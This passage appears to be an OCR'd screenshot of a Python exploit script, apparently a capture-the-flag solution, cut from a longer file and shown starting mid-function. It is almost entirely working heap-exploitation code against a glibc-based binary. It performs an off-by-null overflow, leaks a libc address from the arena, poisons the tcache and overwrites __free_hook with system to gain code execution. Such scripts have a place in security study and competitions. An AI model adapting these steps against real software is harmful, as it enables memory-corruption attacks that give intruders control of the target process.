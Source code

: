 ```python
        obn(s, 0x108)
        delete(s)
        wipe(s)

    # avoid abort
    diff = 0x7fffeb715ac0 - 0x7fffeb7152a0 + 0x10  # I found offset by debug
    payload = p64(0) * 3 + p64(0x51) + p64(leak + diff) * 2
    alloc(s, 0x48, payload)
    delete(s)
    wipe(s)
    alloc(s, 0x18)
    delete(s)
    wipe(s)
    alloc(s, 0x108)
    delete(s)
    wipe(s)
    alloc(s, 0x28)
    wipe(s)
    alloc(s, 0x28)
    wipe(s)
    # off-by-null
    alloc(s, 0x18, b"a" * 0x10 + p64(0x50))
    delete(s)
    wipe(s)
    alloc(s, 0x108, b"a" * 0xf8 + p64(0x41))
    delete(s)
    wipe(s)

    #libc leak
    alloc(s, 0x28)
    delete(s)
    wipe(s)
    alloc(s, 0x0, b"")
    offset = 0x7f6e1475bbe0 - 0x7f6e14570000
    arena_addr = u64(show(s).ljust(8, b"\x00"))
    libc_addr = arena_addr - offset
    system_libc = libc.symbols["system"]
    free_hook_libc = libc.symbols["__free_hook"]
    print(hex(libc_addr))
    wipe(s)

    # make space for tcache: 0x100
    alloc(s, 0xf8)
    wipe(s)

    # overwrite free hook
    alloc(s, 0x48, p64(0) * 3 + p64(0x101))  # overwrite size (0x31 -> 0x101)
    delete(s)
    wipe(s)
    alloc(s, 0x28)
    delete(s)
    wipe(s)
    alloc(s, 0x48, p64(0) * 3 + p64(0x101) + p64(libc_addr + free_hook_libc))
    delete(s)
    wipe(s)
    alloc(s, 0xf8)
    wipe(s)
    # _ = input()
    alloc(s, 0xf8, p64(libc_addr + system_libc))
    wipe(s)

    alloc(s, 0x48)
    delete(s)
```